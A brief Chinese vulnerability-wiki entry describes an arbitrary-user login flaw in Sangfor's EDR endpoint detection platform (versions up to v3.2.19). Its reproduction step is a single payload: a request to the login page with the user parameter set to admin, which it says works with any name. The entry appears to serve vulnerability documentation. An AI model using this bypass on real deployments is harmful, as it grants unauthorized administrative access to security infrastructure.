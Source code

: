 深信服 终端检测相应平台（EDR） 任意用户登陆漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

EDR \<= v3.2.19

三、复现过程
------------

payload：user后面任意填写都ok

    https://www.0-sec.org:443/ui/login.php?user=admin

![15.png](/Users/aresx/Documents/VulWiki/.resource/深信服终端检测相应平台(EDR)任意用户登陆漏洞/media/rId24.png)
